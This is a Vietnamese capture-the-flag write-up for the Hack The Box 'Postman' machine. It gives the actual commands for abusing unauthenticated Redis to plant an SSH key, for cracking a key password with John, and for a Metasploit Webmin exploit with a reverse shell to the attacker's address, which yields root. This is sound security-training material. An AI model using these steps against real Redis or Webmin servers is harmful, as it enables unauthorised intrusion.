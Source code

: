 ## 0. Mở đầu
> Do policy của Hackthebox là không share public write-up nên rất tiếc sẽ không có public write-up tiếp theo ! Để theo dõi các bạn có thể truy cập vào [đây ](https://kgcg.wordpress.com/)với password  **Sun*Security** để đọc write-up.

Tiếp nối bài viết [giới thiệu](https://viblo.asia/p/ban-muon-tap-lam-hacker-hay-thu-choi-cac-machine-tren-hackthebox-3P0lPnwPKox) về Machine trên Hackthebox, đây là write-up của mình về một machine hiện đang **Ready** trên Hackthebox. Hi vọng qua bài write-up các bạn sẽ có một cái nhìn cơ bản về cách tiếp cận và chơi Hackthebox.

Việc đặt tiêu đề là Write-up thay vì Walk Through phần nào thể hiện rằng bài viết sẽ tập trung trực tiếp vào việc tìm ra Flag. Tuy nhiên mình sẽ cố gắng giải thích trong quá trình viết write-up.

Việc đọc write-up khi chưa cố gắng tấn công Machine là không được khuyến khích!

## 1. Về Machine

**Tại sao lại là Postman?** 
Đây là 1 machine dễ, với việc ít phải custom, sẽ là 1 ví dụ rất tốt để các bạn bắt đầu tìm hiểu làm thế nào để có thể Root một "box" !

![](https://images.viblo.asia/1ce56e70-81c2-4219-a667-e0e36239f483.png)



Postman là một machine với OS nhân Linux, được rating là một machine ở mức độ **Easy**, khi Root thành công bạn sẽ có 20 điểm, còn User Own bạn sẽ có 10 điểm, tổng cộng là 30 điểm. Machine được publish 2/11/2019 và có IP là 10.10.10.160

![](https://images.viblo.asia/00307355-eab4-4a32-9488-614e24c9f4af.png)


Nhận định ban đầu: Chúng ta có thể đoán rằng 2 việc quan trọng nhất đó là tìm kiếm càng nhiều thông tin về các ports, service hay URLs của machine càng tốt, ngoài ra chắc chắn machine có "liên quan" tới một hay một số CVE nào đó. <br>
Ngoài ra việc có được Flag của User có vẻ không quá khó khăn khi việc Custom Expoitation gần như bằng 0.


## 2. Write-up
### 2.1 User Flag 
Scan ports và services với nmap:
> **sudo nmap -Pn -sV -O -p-  10.10.10.160** <br><br>
![](https://images.viblo.asia/e0da6e32-f6c3-42ea-9949-c89e3125d60e.png)


Có port 22 (SSH), 80 (HTTP), 6379 (Redis) và 10000 (Webmin httpd) đang mở và có service chạy<br><br>
Công việc tiếp theo là search những service đang chạy trên các ports đó có xem lỗ hổng hay không. Khả năng cao là sẽ có vì matrix rate của machine rất thiên về hướng CVE:
> **searchsploit Redis**<br>
> **searchsploit Webmin 1.910**<br><br>
![](https://images.viblo.asia/216e4f63-749f-4e6b-bfbc-76057a10a935.png)

Cả 2 lỗ hổng đều có thể dẫn tới việc thực thi lệnh, tuy nhiên khi tìm hiểu module expoloit của Webmin 1.910, có yêu cầu username / password, còn Redis thì không. Vậy nên chúng ta sẽ tập trung vào port 6379 trước.

Tham khảo việc pentesting Redis [tại đây](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis).

Install redis-tools: 
```
sudo apt-get install redis-tools
```
Connect tới redis trên server mà không cần authen và lấy những thông tin có thể:
```
redis-cli -h 10.10.10.160
10.10.10.160:6379> info
10.10.10.160:6379> CONFIG GET *
```

![](https://images.viblo.asia/b2808403-1286-4c11-9efd-b627dad53c19.png)
Chúng ta có được đường dẫn .ssh của redis, tức là nếu chúng ta có thể ghi vào đây một ssh public key, chúng ta có thể dùng private key để authen và ssh vào dưới tên redis.
Tự tạo một cặp public key - private key và đẩy lên theo hướng dẫn pentesting ở link trên:

```
ssh-keygen -t rsa
(echo -e "\n\n"; cat ./id_rsa.pub; echo -e "\n\n") > foo.txt
cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit
```
Lưu public key vào "authorized_keys" trên redis server, lưu ý chúng ta chỉ có quyền với /var/lib/redis/.ssh
![](https://images.viblo.asia/60b52075-d98b-4680-8698-96585be31881.png)

Từ đây ta só thể ssh dễ dàng. Có vẻ sẽ có User flag ngay tại đây.
![](https://images.viblo.asia/12c77e1f-9f06-4956-a6df-34ccbf9b0e94.png)

Nhưng cuộc đời không như mơ và cuộc sống không dễ thở:
![](https://images.viblo.asia/c27a5b35-ce30-4b78-ae51-90587954feb7.png)

Với việc port 22 mở, chúng ta có thể suy đoán rằng cần phải ssh tới Web Server qua port 22 với User **Matt** để có được user flag. <br>
Sau khi dò dẫm, chúng ta thấy 1 **.bak** file đáng ngờ trong **/opt/**, theo thông tin có thể suy đoán đây là private key của **Matt**. 

Nhưng cuộc sống lại không như mơ và cuộc đời lại không dễ thở, có vẻ là **.bak** file nên không thể dùng nó để ssh được nữa. <br>Thử 
Decrypt với John:<br><br>
   ![](https://images.viblo.asia/d1e76349-b94c-4cc8-b24c-0e1eb68c87b9.png)

Chúng ta có password của Matt: **computer2008**. Chúng ta dùng để cat flag :v:

![](https://images.viblo.asia/16c08b64-7e45-4cfc-807a-e16707999c96.jpg)

### 2.2 Root Flag
Có lẽ đây là lúc sử dụng đến port 10000 ban nãy, hãy xem thử module của metasploit về lỗ hổng trên **Webmin 1.910**:<br><br>
![](https://images.viblo.asia/0df73480-c01e-450a-b4e0-6a4df192590e.png)

Command:
```
set RHOSTS 10.10.10.160
set USERNAME Matt
set PASSWORD computer2008
set LHOST: 10.10.15.156
set LPORT: 4443
set SSL True
exploit
```
Trong đó: **LHOST** là ip của chúng ta được cấp khi connect qua OpenVPN và phải set **SSL True** vì khi truy cập vào đây sẽ qua HTTPS:
![](https://images.viblo.asia/b97870c6-8684-4901-ae67-1c6a7623d4b9.png)

Đã có root thì chỉ việc cat root flag:
![](https://images.viblo.asia/bf3bc8f6-7771-45f1-ad2f-7b4bbb257e60.png)

![](https://images.viblo.asia/3583981a-faa4-48cb-ba59-566ab5983442.jpg)

## 3. Kết luận
Đây là một machine phù hợp với người mới bắt đầu, có nhiều thử thách nhỏ để giải quyết thử thách lớn ( có flag ). Từ đó người chơi có thể có thêm nhiều kiến thức mới.

Qua bài write-up, hi vọng các bạn có được một cái nhìn cơ bản về việc làm thế nào để có được flag trong 1 machine trên Hackthebox, cũng như một số kỹ năng và kiến thức cơ bản cần dùng !